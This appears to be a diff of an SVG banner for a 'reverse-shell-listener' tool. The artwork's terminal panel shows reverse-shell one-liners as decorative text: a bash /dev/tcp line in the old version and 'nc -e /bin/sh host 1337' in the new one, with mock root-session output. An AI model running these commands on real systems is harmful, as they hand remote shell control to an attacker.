

- <svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 800 300">
+ <svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 900 320" role="img" aria-label="reverse-shell-listener">
  <defs>
    <linearGradient id="bg" x1="0%" y1="0%" x2="100%" y2="100%">
-       <stop offset="0%" style="stop-color:#282a36" />
-       <stop offset="100%" style="stop-color:#1a1c24" />
+       <stop offset="0%" stop-color="#282a36" />
+       <stop offset="50%" stop-color="#21222c" />
+       <stop offset="100%" stop-color="#16171d" />
    </linearGradient>
    <linearGradient id="accent" x1="0%" y1="0%" x2="100%" y2="0%">
-       <stop offset="0%" style="stop-color:#bd93f9" />
-       <stop offset="50%" style="stop-color:#ff79c6" />
-       <stop offset="100%" style="stop-color:#8be9fd" />
+       <stop offset="0%" stop-color="#8be9fd" />
+       <stop offset="50%" stop-color="#bd93f9" />
+       <stop offset="100%" stop-color="#ff79c6" />
    </linearGradient>
-     <filter id="glow" x="-20%" y="-20%" width="140%" height="140%">
-       <feGaussianBlur stdDeviation="3" result="blur" />
+     <linearGradient id="green-glow" x1="0%" y1="0%" x2="100%" y2="0%">
+       <stop offset="0%" stop-color="#50fa7b" />
+       <stop offset="100%" stop-color="#8be9fd" />
+     </linearGradient>
+     <filter id="soft-glow" x="-30%" y="-30%" width="160%" height="160%">
+       <feGaussianBlur stdDeviation="2.5" result="blur" />
      <feComposite in="SourceGraphic" in2="blur" operator="over" />
    </filter>
+     <filter id="panel-shadow" x="-20%" y="-20%" width="140%" height="140%">
+       <feDropShadow dx="0" dy="8" stdDeviation="12" flood-color="#000" flood-opacity="0.4" />
+     </filter>
+     <clipPath id="window-clip">
+       <rect width="260" height="170" rx="10" />
+     </clipPath>
  </defs>
-   <rect width="800" height="300" fill="url(#bg)" rx="12" />
-   <g stroke="#44475a" stroke-width="0.5" opacity="0.3">
-     <line x1="0" y1="60" x2="800" y2="60" />
-     <line x1="0" y1="120" x2="800" y2="120" />
-     <line x1="0" y1="180" x2="800" y2="180" />
-     <line x1="0" y1="240" x2="800" y2="240" />
-     <line x1="100" y1="0" x2="100" y2="300" />
-     <line x1="300" y1="0" x2="300" y2="300" />
-     <line x1="500" y1="0" x2="500" y2="300" />
-     <line x1="700" y1="0" x2="700" y2="300" />
+   <rect width="900" height="320" fill="url(#bg)" rx="16" />
+   <g opacity="0.04" fill="none" stroke="#bd93f9" stroke-width="1">
+     <path d="M50 80 L75 65 L100 80 L100 110 L75 125 L50 110 Z" />
+     <path d="M100 80 L125 65 L150 80 L150 110 L125 125 L100 110 Z" />
+     <path d="M75 125 L100 110 L125 125 L125 155 L100 170 L75 155 Z" />
+     <path d="M750 200 L775 185 L800 200 L800 230 L775 245 L750 230 Z" />
+     <path d="M800 200 L825 185 L850 200 L850 230 L825 245 L800 230 Z" />
  </g>
-   <g transform="translate(60, 70)">
-     <rect width="220" height="160" fill="#21222c" stroke="#bd93f9" stroke-width="2" rx="8" />
-     <circle cx="20" cy="18" r="5" fill="#ff5555" />
-     <circle cx="38" cy="18" r="5" fill="#f1fa8c" />
-     <circle cx="56" cy="18" r="5" fill="#50fa7b" />
-     <text x="20" y="55" font-family="monospace" font-size="13" fill="#50fa7b">$</text>
-     <text x="35" y="55" font-family="monospace" font-size="13" fill="#f8f8f2">bash -i &gt;&amp;</text>
-     <text x="20" y="80" font-family="monospace" font-size="13" fill="#f8f8f2">/dev/tcp/host/1337</text>
-     <text x="20" y="110" font-family="monospace" font-size="13" fill="#8be9fd">[connected]</text>
-     <text x="20" y="135" font-family="monospace" font-size="13" fill="#6272a4">_</text>
+   <g transform="translate(70, 75)" filter="url(#panel-shadow)">
+     <rect width="260" height="170" fill="#1a1c24" stroke="#44475a" stroke-width="1" rx="10" />
+     <rect width="260" height="28" fill="#21222c" rx="10" />
+     <rect x="10" y="8" width="260" height="20" fill="#21222c" />
+     <circle cx="22" cy="14" r="5" fill="#ff5555" />
+     <circle cx="40" cy="14" r="5" fill="#f1fa8c" />
+     <circle cx="58" cy="14" r="5" fill="#50fa7b" />
+     <text x="220" y="18" font-family="monospace" font-size="10" fill="#6272a4">target</text>
+     <text x="16" y="55" font-family="monospace" font-size="12" fill="#50fa7b">$</text>
+     <text x="30" y="55" font-family="monospace" font-size="12" fill="#f8f8f2">nc -e /bin/sh host 1337</text>
+     <text x="16" y="80" font-family="monospace" font-size="12" fill="#8be9fd">[*] connecting...</text>
+     <text x="16" y="105" font-family="monospace" font-size="12" fill="#50fa7b">[+] session established</text>
+     <text x="16" y="135" font-family="monospace" font-size="12" fill="#bd93f9">whoami</text>
+     <text x="16" y="155" font-family="monospace" font-size="12" fill="#f8f8f2">root</text>
  </g>
-   <g stroke="url(#accent)" stroke-width="2" fill="none" opacity="0.8">
-     <path d="M280 150 L360 150" stroke-dasharray="6,4" />
-     <path d="M440 150 L520 150" stroke-dasharray="6,4" />
+   <g transform="translate(375, 100)" filter="url(#soft-glow)">
+     <circle cx="75" cy="60" r="55" fill="#21222c" stroke="url(#accent)" stroke-width="3" />
+     <text x="75" y="55" text-anchor="middle" font-family="monospace" font-size="14" font-weight="bold" fill="url(#accent)">RSL</text>
+     <text x="75" y="75" text-anchor="middle" font-family="monospace" font-size="9" fill="#6272a4">LISTENER</text>
  </g>
-   <g transform="translate(360, 110)">
-     <rect width="80" height="80" fill="#21222c" stroke="#ff79c6" stroke-width="2" rx="12" filter="url(#glow)" />
-     <text x="40" y="35" text-anchor="middle" font-family="monospace" font-size="11" fill="#ff79c6">RSL</text>
-     <text x="40" y="55" text-anchor="middle" font-family="monospace" font-size="10" fill="#f8f8f2">Listener</text>
+   <g transform="translate(560, 75)" filter="url(#panel-shadow)">
+     <rect width="270" height="170" fill="#1a1c24" stroke="#44475a" stroke-width="1" rx="10" />
+     <rect width="270" height="28" fill="#21222c" rx="10" />
+     <rect x="10" y="8" width="270" height="20" fill="#21222c" />
+     <circle cx="22" cy="14" r="5" fill="#ff5555" />
+     <circle cx="40" cy="14" r="5" fill="#f1fa8c" />
+     <circle cx="58" cy="14" r="5" fill="#50fa7b" />
+     <text x="230" y="18" font-family="monospace" font-size="10" fill="#6272a4">dashboard</text>
+     <rect x="16" y="42" width="110" height="8" fill="#44475a" rx="2" />
+     <rect x="16" y="58" width="80" height="6" fill="#6272a4" rx="2" />
+     <rect x="16" y="72" width="90" height="6" fill="#6272a4" rx="2" />
+     <circle cx="200" cy="62" r="14" fill="none" stroke="#50fa7b" stroke-width="3" />
+     <path d="M200 52 L200 62 L208 66" fill="none" stroke="#50fa7b" stroke-width="2" stroke-linecap="round" />
+     <rect x="16" y="100" width="238" height="50" fill="#21222c" rx="6" />
+     <text x="28" y="120" font-family="monospace" font-size="10" fill="#f8f8f2">PTY terminal · root@target</text>
+     <text x="28" y="140" font-family="monospace" font-size="10" fill="#50fa7b">$</text>
+     <text x="42" y="140" font-family="monospace" font-size="10" fill="#f8f8f2">_</text>
  </g>
-   <g transform="translate(520, 70)">
-     <rect width="220" height="160" fill="#21222c" stroke="#8be9fd" stroke-width="2" rx="8" />
-     <circle cx="20" cy="18" r="5" fill="#ff5555" />
-     <circle cx="38" cy="18" r="5" fill="#f1fa8c" />
-     <circle cx="56" cy="18" r="5" fill="#50fa7b" />
-     <text x="20" y="50" font-family="monospace" font-size="13" fill="#bd93f9">Dashboard</text>
-     <rect x="20" y="65" width="180" height="12" fill="#44475a" rx="2" />
-     <rect x="20" y="85" width="120" height="10" fill="#6272a4" rx="2" />
-     <rect x="20" y="105" width="160" height="10" fill="#6272a4" rx="2" />
-     <rect x="20" y="130" width="80" height="14" fill="#bd93f9" rx="3" />
+   <g stroke="url(#green-glow)" stroke-width="2.5" fill="none" stroke-linecap="round">
+     <path d="M330 160 L365 160" stroke-dasharray="4,4" />
+     <path d="M525 160 L560 160" stroke-dasharray="4,4" />
  </g>
-   <text x="400" y="260" text-anchor="middle" font-family="monospace" font-size="28" font-weight="bold" fill="url(#accent)" filter="url(#glow)">reverse-shell-listener</text>
-   <text x="400" y="285" text-anchor="middle" font-family="monospace" font-size="12" fill="#6272a4">multi-transport reverse-shell catcher with a browser dashboard</text>
+   <g fill="url(#green-glow)">
+     <polygon points="365,156 375,160 365,164" />
+     <polygon points="560,156 570,160 560,164" />
+   </g>
+   <g font-family="monospace" font-size="10" font-weight="bold">
+     <rect x="120" y="260" width="50" height="20" fill="#21222c" stroke="#ff79c6" stroke-width="1" rx="4" />
+     <text x="145" y="274" text-anchor="middle" fill="#ff79c6">TCP</text>
+     <rect x="185" y="260" width="50" height="20" fill="#21222c" stroke="#bd93f9" stroke-width="1" rx="4" />
+     <text x="210" y="274" text-anchor="middle" fill="#bd93f9">TLS</text>
+     <rect x="250" y="260" width="70" height="20" fill="#21222c" stroke="#8be9fd" stroke-width="1" rx="4" />
+     <text x="285" y="274" text-anchor="middle" fill="#8be9fd">WEBSHELL</text>
+     <rect x="335" y="260" width="55" height="20" fill="#21222c" stroke="#50fa7b" stroke-width="1" rx="4" />
+     <text x="362" y="274" text-anchor="middle" fill="#50fa7b">MUX</text>
+     <rect x="405" y="260" width="55" height="20" fill="#21222c" stroke="#f1fa8c" stroke-width="1" rx="4" />
+     <text x="432" y="274" text-anchor="middle" fill="#f1fa8c">PROXY</text>
+     <rect x="475" y="260" width="70" height="20" fill="#21222c" stroke="#ff79c6" stroke-width="1" rx="4" />
+     <text x="510" y="274" text-anchor="middle" fill="#ff79c6">BADUSB</text>
+     <rect x="560" y="260" width="80" height="20" fill="#21222c" stroke="#8be9fd" stroke-width="1" rx="4" />
+     <text x="600" y="274" text-anchor="middle" fill="#8be9fd">FILE MGR</text>
+   </g>
+   <text x="450" y="42" text-anchor="middle" font-family="monospace" font-size="32" font-weight="bold" fill="url(#accent)" filter="url(#soft-glow)">reverse-shell-listener</text>
</svg>
